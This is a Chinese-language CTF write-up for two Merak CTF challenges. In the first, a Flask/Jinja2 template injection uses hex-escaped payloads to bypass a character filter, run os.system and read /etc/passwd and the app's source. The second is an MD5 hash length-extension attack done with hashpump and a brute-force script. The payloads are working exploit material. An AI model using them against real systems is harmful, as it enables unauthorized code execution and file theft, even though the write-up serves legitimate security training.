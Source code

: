 # Merak CTF

## Flask_SSTI

进去只有一个框框，根据题目提示，很明显是模板注入了。

输入`{{7*7}}`显示`49`，说明存在模板注入。但是接下来尝试发现英文句号，下划线和单引号都被过滤了。  

这里用到一个技巧：在模板注入的过程中，以下两种语法是等价的：

```python
{{"".__class__}}
{{""["__class__"]}}
```

这两种也是等价：  

```python
{{"".method()}}
{{""["method"]()}}
```

既然可以将对象的属性用字符串的形式索引出来，我们就可以使用字符串的一些特性绕过过滤`. ' _`这些字符的规则。  

使用ord函数，在模板注入中未成功。  

```python
""[ord(95)+ord(95)+"class"+ord(95)+ord(95)]
#失败了，报出Exception
```

考虑使用转义字符序列，发现可以成功注入。接下来就是常规的操作了。调用OS模块，发现没有回显  

```python
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
#返回了0，说明只传出返回值。
```

此时可考虑使用curl方式将数据带出。但我们可以在此之前，使用读取文件的函数，手机更多关于app的信息。因为没有出现file类，选用`_frozen_importlib_external.FileLoader'>`这个类中的`get_data()`方法，payload如下：

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/etc/passwd")}}
```

成功读取到密码。尝试读取更多信息，首先要知道app的位置。使用Jinja自带的config变量查看信息，也就是：

```python
{{config}}
```

查看到如下信息。   

```
<Config {'ENV': 'production', 'DEBUG': False, ... 'APPLICATION_ROOT': '/', ... ,'MAX_COOKIE_SIZE': 4093, 'flag': 'Kn4u>H\x7fd;)F\x12\x1c$;nW\x01\x02elSH;#xwx%%\x1f\\I#X yaR \x1fI\x05'}> ~♡ⓛⓞⓥⓔ♡~
```

注意到了Application_Root和flag两个字段。flag是乱码，而应用目录显示了应用的位置，是根目录。根据flask程序的文件结构，我们知道存在一个app.py作为主程序。尝试读取这个程序：  

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
```

成功读取，内容如下：

```python
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'

def encode(line, key, key2):
 return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3tU', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVTtU')
flag = ""
os.remove("/app/flag")
@app.route('/', methods=['GET', 'POST'])

#程序逻辑

 if '.' in p or '_' in p or '\'' in p:
 return 'Your nickname contains restricted characters!'

#程序逻辑

if __name__ == '__main__':
 app.run(
```

注意到这里确实过滤了三个符号。而前面的代码显示了flag字符串的加密方法，并且声称flag的文件被删除，所以我们根据加密方法编写解密代码如下：  

```python
def decode(newline,key,key2):
    return ''.join( chr(x ^ ord(newline[x])^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(newline)) )
flag_enc = 'Kn4u>\x1c~bj{\x17B@$ll\x0b\x07\x02elVK;"|t\x7f%"\x1f\x0f\x18q^%z3\x07zOI\x05'
#读取的flag加密值
flag = decode(newl, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3tU', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVTtU')
print(flag)
```

得到flag：`flag{fb74f76e-bce7-4dab-8e6d-51efde0a379b}`

## Cool Hash

一看就是哈希长度扩展攻击，但是缺少信息...

发现源码泄露：www.zip，解压缩得到index.php

这里截取关键逻辑

```php
<?php
        error_reporting(0);
        $secret = "********";
        setcookie("hash", md5($secret."adminadmin"));

if (isset($_POST['username']) && isset($_POST['password'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $username = urldecode($username);
    $password = urldecode($password);
    if ($password === "admin"){
        die("u r not admin !!!");
    }

    if ($username == "admin" && $password != "admin"){
        echo("new md5:".md5($secret.$username.$password)."</br>");
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            echo("flag{this_is_a_test_flag}");
        }
    }
}
?>
```

目的是构造password != admin并且username == admin 并且哈希能够匹配。

secret从源码来看是8位，那么加上admin是13位，hashpump中输入命令

```bash
hashpump -s 70f36257301b60fb370e72366f3b3f40 -d admin -a emmm -k 13
17e465f6c8c2c3df191240b6d5e56a0d
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00emmm
```

因为有URLDECODE，把`\x`替换成`%`，提交

```
POST /index.php HTTP/1.1
Host: 4bc07b04-4991-4557-a9ea-69de5e6dd89f.ctfp.merak.codes
...
Cookie: __cfduid=d2805811070326eab4ccd32bc5f3f70ca1575169229; hash=291b202f6f337b1e91722a49f417fb01; user=b6715a3701b5d3b0d624ea8cae54d184
Upgrade-Insecure-Requests: 1

-----------------------------1534681789211822725361541205
Content-Disposition: form-data; name="username"

admin
-----------------------------1534681789211822725361541205
Content-Disposition: form-data; name="password"

admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00emmm
-----------------------------1534681789211822725361541205
Content-Disposition: form-data; name="login"

æäº¤
-----------------------------1534681789211822725361541205--


```

发现并不正确。

考虑到secret的位数其实是未知的，实际上应该爆破一下。编写bash脚本如下：

```bash
#!/bin/bash
for var in 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
do
hashpump -s 70f36257301b60fb370e72366f3b3f40 -d admin -a emmm -k $var | tr "\\" "x" | tr -s "xx" | tr "x" "%" 
done
```

三次tr分别：把下划线替换为x，把x去重，把x替换为%。执行后输出payload：

```bash
bash shl.sh > out.txt
cat out.txt

17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00h%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00p%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80%00%00%00%00%00%00%00emmm
17e465f6c8c2c3df191240b6d5e56a0d
...
```

发现hash值是一样的，去掉即可。把这个文件作为字典扔进BurpSuite：

![Screen Shot 2019-12-03 at 01.30.27.png](https://upload-images.jianshu.io/upload_images/19782504-ba8db383862c3155.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

得到flag：`flag{30bed9c1-a2c6-4739-aa39-018fff1491cf}`

payload是keylength = 11 时的，说明secret的位数是六位。
